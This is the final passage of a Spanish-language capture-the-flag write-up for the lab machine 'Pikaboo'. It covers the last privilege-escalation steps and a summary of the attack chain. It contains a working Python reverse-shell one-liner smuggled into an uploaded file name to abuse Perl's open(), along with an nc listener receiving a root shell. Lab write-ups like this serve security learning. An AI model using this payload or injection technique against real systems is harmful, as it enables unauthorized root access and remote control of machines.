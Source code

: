 > Habría que subirlo así, por poblemas de comillas y demás: 
`put "\python3 -c 'a=__import__;s=a("\"socket\");o=a(""\"os\").dup2;p=a(""\"pty\").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect((""\"10.10.14.145\",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p(""\"sh\")'.csv"`

##### Paso 4 - Esperar por la shell

Si lo hemos hecho bien, en cuestión de un minuto deberíamos de recibir una shell como usuario `root` en la máquina víctima.

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvp 4242
Listening on 0.0.0.0 4242
Connection received on 10.10.10.249 49434
# whoami; id; hostname
whoami; id; hostname
root
uid=0(root) gid=0(root) groups=0(root)
pikaboo.htb
```
---

Una vez en este punto podremos visualizar la flag root.txt en `/root/root.txt` y la flag user.txt localizada en `/home/pwnmeow/user.txt`:

```bash
root@pikaboo:/# echo -e "\n[+] root.txt: `cat /root/root.txt`\n[+] user.txt: `cat /home/pwnmeow/user.txt`"

[+] root.txt: 9XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXf
[+] user.txt: fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0
```

# Conclusión

En esta máquina hemos explotado varias cosas ganar acceso, en primer lugar, nos hemos aprovechado de un _misconfiguration_ de `Nginx` para poder acceder a un panel al que no teníamos acceso. Este panel era vulnerable a `LFI` y conseguimos acceso a la máquina como usuario no privilegiado mediante un `Log Poisoning`.

Para escalar privilegios, abusamos de la función `open()` de perl para conseguir una **ejecución remota de comandos** y convertirnos en superusuario mediante una **reverse shell**.









